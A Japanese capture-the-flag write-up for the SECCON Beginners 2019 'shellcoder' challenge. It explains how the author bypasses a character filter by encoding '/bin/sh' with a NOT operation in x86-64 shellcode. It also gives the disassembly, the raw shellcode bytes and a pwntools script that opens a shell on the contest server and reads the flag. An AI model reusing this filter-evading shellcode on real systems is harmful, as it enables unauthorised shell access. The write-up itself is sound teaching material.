 # はじめに
2019年5月25日〜26日、Szarnyさんと一緒SECCONのCTF For Beginners (ctf4b)に参加し、最後に二人のチームが2707ポイントを集め、666参加チームの中26位で終わりました。

以下、解けた問題「shellcoder」の解法を紹介していきます。
# shellcoder

```
$ checksec ./shellcoder 
[*] '/ctf/SECCON2019-ctf4b/take2/Pwnable/shellcoder/shellcoder'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
`radare2`で逆アセンブリを読むと、プログラムの動作がわかりました。

単にシェルコードを求めるプログラムです。ただし、`['b', 'i', 'n', 's', 'h']`という文字が入っていると実行せずに終了されてしまう。このように：
```
$ ndisasm -b 64 shellcode
00000000  4831C0            xor rax,rax
00000003  4831F6            xor rsi,rsi
00000006  99                cdq
00000007  48BF2F2F62696E2F  mov rdi,0x68732f6e69622f2f
         -7368
00000011  50                push rax
00000012  57                push rdi
00000013  4889E7            mov rdi,rsp
00000016  B03B              mov al,0x3b
00000018  0F05              syscall
$
$ (cat shellcode; cat) | ./shellcoder
Are you shellcoder?
Payload contains invalid character!!

$ 
```
というわけで、禁止文字を含まないシェルコードならば良さそうです。例えばコマンド文字列が否定演算で隠されたシェルコード：
```
$ ndisasm -b 64 shellcode
00000000  4831C0            xor rax,rax
00000003  4831F6            xor rsi,rsi
00000006  99                cdq
00000007  48BFD09D9691D08C  mov rdi,0xff978cd091969dd0
         -97FF
00000011  48F7D7            not rdi
00000014  50                push rax
00000015  57                push rdi
00000016  4889E7            mov rdi,rsp
00000019  B03B              mov al,0x3b
0000001B  0F05              syscall
$
$ (cat shellcode; cat) | ./shellcoder
Are you shellcoder?
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
^C
$
```
```python
#!/usr/bin/env python2
from pwn import *

p = remote("153.120.129.186", 20000)

shellcode = "\x48\x31\xc0\x48\x31\xf6\x99\x48\xbf\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd7\x50\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
p.sendlineafter("\n", shellcode)
p.interactive()
p.close()
```
```
$ ./exploit.py 
[+] Opening connection to 153.120.129.186 on port 20000: Done
[*] Switching to interactive mode
$ id
uid=40968 gid=40000(shellcoder) groups=40000(shellcoder)
$ ls
flag.txt
shellcoder
$ cat flag.txt
ctf4b{Byp4ss_us!ng6_X0R_3nc0de}
$ 
[*] Closed connection to 153.120.129.186 port 20000
```
`ctf4b{Byp4ss_us!ng6_X0R_3nc0de}`というフラグを手に入れます。

以上 shellcoder の解法でした。読んで頂き、ありがとうございました！